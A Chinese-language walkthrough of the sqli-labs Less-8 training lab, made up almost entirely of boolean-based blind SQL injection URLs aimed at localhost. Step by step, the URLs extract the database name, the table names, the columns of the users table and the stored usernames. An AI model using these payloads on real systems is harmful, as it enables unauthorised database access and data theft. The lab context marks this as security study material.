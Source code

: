 注入过程
1、判断数据库名称长度
```sql
http://127.0.0.1/sqli-labs/Less-8/?id=1' and (length(database()))=8%23```
```



2、猜解数据库名
```sql

http://127.0.0.1/sqli-labs/Less-8/?id=1' and (ascii(substr((select database()) ,1,1))) = 115%23
http://127.0.0.1/sqli-labs/Less-8/?id=1' and (ascii(substr((select database()) ,2,1))) = 101%23
http://127.0.0.1/sqli-labs/Less-8/?id=1' and (ascii(substr((select database()) ,3,1))) = 99%23
http://127.0.0.1/sqli-labs/Less-8/?id=1' and (ascii(substr((select database()) ,4,1))) = 117%23
http://127.0.0.1/sqli-labs/Less-8/?id=1' and (ascii(substr((select database()) ,5,1))) = 114%23
http://127.0.0.1/sqli-labs/Less-8/?id=1' and (ascii(substr((select database()) ,6,1))) = 105%23
http://127.0.0.1/sqli-labs/Less-8/?id=1' and (ascii(substr((select database()) ,7,1))) = 116%23
http://127.0.0.1/sqli-labs/Less-8/?id=1' and (ascii(substr((select database()) ,8,1))) = 121%23```



3、判断数据库中表的数量
```sql

http://127.0.0.1/sqli-labs/Less-8/?id=1' and (select count(table_name) from information_schema.tables where table_schema=database())=4%23
```

4、猜解其中第四个表名的长度
```sql

http://127.0.0.1/sqli-labs/Less-8/?id=1' and (length((select table_name from information_schema.tables where table_schema=database() limit 3,1)))=5%23```
```


5、猜解第四个表名
```sql

http://127.0.0.1/sql/Less-8/?id=1' and (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 3,1),1,1))) = 117%23
http://127.0.0.1/sql/Less-8/?id=1' and (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 3,1),2,1))) = 115%23
http://127.0.0.1/sql/Less-8/?id=1' and (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 3,1),3,1))) = 101%23
http://127.0.0.1/sql/Less-8/?id=1' and (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 3,1),4,1))) = 114%23
http://127.0.0.1/sql/Less-8/?id=1' and (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 3,1),5,1))) = 115%23
```

第四个表名为users

6、判断users表中字段数量

http://127.0.0.1/sqli-labs/Less-8/?id=1' and (select count(column_name) from information_schema.columns where table_schema=database() and table_name='users')=3%23

7、判断第二个字段长度

http://127.0.0.1/sqli-labs/Less-8/?id=1' and length((select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 1,1))=8%23

8、猜解第二个字段名称

http://127.0.0.1/sqli-labs/Less-8/?id=1' and ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 1,1),1,1))=117%23
...
第二个字段名称为username
注：substr(参数1，参数2，参数3)，参数2中0和1都可表示从第一位字符开始，但这里只可以用1,0不可以，可能和数据库版本有关

9、猜解指定字段中值的数量

http://127.0.0.1/sqli-labs/Less-8/?id=1' and (select count(username)from users)=13%23

10、猜解第一个字段中第一个值的长度

http://127.0.0.1/sqli-labs/Less-8/?id=1' and length((select username from users limit 0,1))=4%23

11、猜解第一个字段中第一个值的名称

http://127.0.0.1/sqli-labs/Less-8/?id=1' and ascii(substr((select username from users limit 0,1),1,1))=68%23
...
